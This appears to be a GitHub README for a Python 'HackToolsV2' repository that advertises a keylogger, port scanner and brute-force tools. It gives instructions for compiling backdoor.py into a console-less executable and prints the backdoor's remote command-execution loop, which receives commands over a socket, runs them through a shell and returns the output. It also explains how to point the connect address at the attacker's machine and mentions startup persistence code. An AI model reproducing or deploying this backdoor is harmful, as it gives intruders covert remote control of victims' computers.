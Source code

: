 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.(new ones will come soon)
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112891291-a4fc3c00-90e0-11eb-81bd-604dd01c9b0d.PNG)
### due to some complications in server.py and backdoor.py You must replace the code blocks that write 127.0.0.1 with the local IP address.
# LIKE THIS

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('127.0.0.1',5555))

s.connect(('127.0.0.1',5555))
```
# TO THIS
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('192.1.2.12',5555))

s.connect(('192.1.2.12',5555))
```
# about deactivated lines of code
### some processes develop differently in your Linux and Windows operating systems.
### programs have been deactivated because some processes cannot run at the same time even if they are written in both.
### You can customize the lines of code you can also activate the startup codes I use to see if it works.

